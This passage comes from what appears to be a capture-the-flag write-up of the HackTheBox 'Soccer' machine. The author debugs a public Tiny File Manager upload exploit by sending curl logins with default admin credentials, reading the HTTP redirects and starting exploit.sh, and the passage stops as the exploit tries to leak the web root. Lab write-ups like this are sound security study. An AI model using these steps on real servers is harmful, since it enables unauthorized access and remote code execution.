 [GitHub - febinrev/tinyfilemanager-2.4.3-exploit: A Path traversal vulnerability in the file upload functionality in tinyfilemanager.php in Tiny File Manager Project’s Tiny File Manager <= 2.4.6 allows remote attackers with valid user accounts to upload malicious PHP files to the webroot and achieve code execution on the target server.](https://github.com/febinrev/tinyfilemanager-2.4.3-exploit?ref=secjuice.com)

But the same error occurs. I studied the _exploit_ and realized that it does nothing but _upload_ a file. I tried to figure out where the flow gets stuck by running the script commands manually.

    ┌──(in7rud3r㉿kali-muletto)-[~/…/attack/expl/git/tinyfilemanager-2.4.3-exploit]
    └─$ curl "http://soccer.htb/tiny" -X POST -s -d "fm_usr=admin&fm_pwd=admin@123" -i                                                                                    
    HTTP/1.1 301 Moved Permanently
    Server: nginx/1.18.0 (Ubuntu)
    Date: Wed, 25 Jan 2023 21:08:51 GMT
    Content-Type: text/html
    Content-Length: 178
    Location: http://soccer.htb/tiny/
    Connection: keep-alive
    
    <html>
    <head><title>301 Moved Permanently</title></head>
    <body>
    <center><h1>301 Moved Permanently</h1></center>
    <hr><center>nginx/1.18.0 (Ubuntu)</center>
    </body>
    </html>
                                                                                                                                                                                                             
    ┌──(in7rud3r㉿kali-muletto)-[~/…/attack/expl/git/tinyfilemanager-2.4.3-exploit]
    └─$ curl "http://soccer.htb/tiny/" -X POST -s -d "fm_usr=admin&fm_pwd=admin@123" -i
    HTTP/1.1 302 Found
    Server: nginx/1.18.0 (Ubuntu)
    Date: Wed, 25 Jan 2023 21:09:02 GMT
    Content-Type: text/html; charset=UTF-8
    Transfer-Encoding: chunked
    Connection: keep-alive
    Set-Cookie: filemanager=su0addf783d7l7cg0jiaq7g5iq; path=/
    Location: http://soccer.htb/tiny/tinyfilemanager.php?p=

This cleared things up a bit for me. Apparently, calling the URL without completing it with the "_slash_" returns an error code _**301**_ (_moved permanently_) to the same address but with the final "_slash_" and, again, once the URL is corrected, a new redirect (**_302_** this time) is carried out (too bad that if not specified, the curls do not follow the redirects due to **_301_** and **_302_** errors).

    ┌──(in7rud3r㉿kali-muletto)-[~/…/attack/expl/git/tinyfilemanager-2.4.3-exploit]
    └─$ ./exploit.sh http://soccer.htb/tiny/tinyfilemanager.php admin admin@123
    /usr/bin/curl
    [✔] Curl found! 
    /usr/bin/jq
    [✔] jq found! 
    
    [+]  Login Success! Cookie: filemanager=16lo7imigtdi84g10i8isf8taa 
    
    [*] Try to Leak Web root directory path 
    